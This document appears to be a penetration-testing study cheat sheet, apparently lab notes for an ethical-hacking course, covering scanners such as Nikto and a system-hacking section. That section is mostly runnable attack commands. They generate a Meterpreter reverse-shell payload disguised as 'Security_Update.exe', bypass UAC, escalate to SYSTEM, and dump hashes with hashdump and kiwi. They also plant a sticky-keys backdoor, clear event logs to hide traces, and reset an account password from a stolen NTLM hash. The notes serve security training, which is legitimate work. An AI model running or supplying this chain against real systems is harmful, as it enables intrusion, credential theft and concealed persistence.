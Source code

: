 	Google Search "nvd severity score range"

    # Tools
	OpenVAS
	Nessus		(Default port: 8834)
	Nikto

	nikto -h https://www.certifiedhacker.com
	nikto -h https://www.certifiedhacker.com -Tuning x
	nikto -h https://www.certifiedhacker.com -Cgidirs all


## System Hacking 06

    # Gaining Access
	responder -I eth0
	john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

	l0phtCrack 7 (Win64)	//Securiy auditing.
	Exploit-DB
	
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.13 LPORT=4477 --platform windows -f exe -o Security_Update.exe
		
    # Privilege Escalation Windows
	meterpreter > run post/windows/gather/smart_hashdump	
	meterpreter > getsystem -t 1
	meterpreter > background
	Backgrounding session 1...
	
	msf6 > search bypassuac
	msf6 > use exploit/windows/local/bypassuac_fodhelper
	msf6 exploit(windows/local/bypassuac_fodhelper) > set SESSION 1
	msf6 exploit(windows/local/bypassuac_fodhelper) > set LHOST 10.10.1.13
	msf6 exploit(windows/local/bypassuac_fodhelper) > set TARGET 0
	msf6 exploit(windows/local/bypassuac_fodhelper) > exploit
	meterpreter > getuid
	meterpreter > getsystem -t 1
	meterpreter > getuid		//now we are administrator (nt authority)

	meterpreter > hashdump
	meterpreter > run post/windows/gather/hashdump
	meterpreter > run post/windows/gather/smart_hashdump

	meterpreter > run post/windows/manage/sticky_keys

	meterpreter > clearev		// at the end
		
	
	meterpreter > load kiwi
	meterpreter > help kiwi
	meterpreter > lsa_dump_sam
	meterpreter > password_change -u Admin -n [NTLM hash of Admin acquired in previous step] -P password
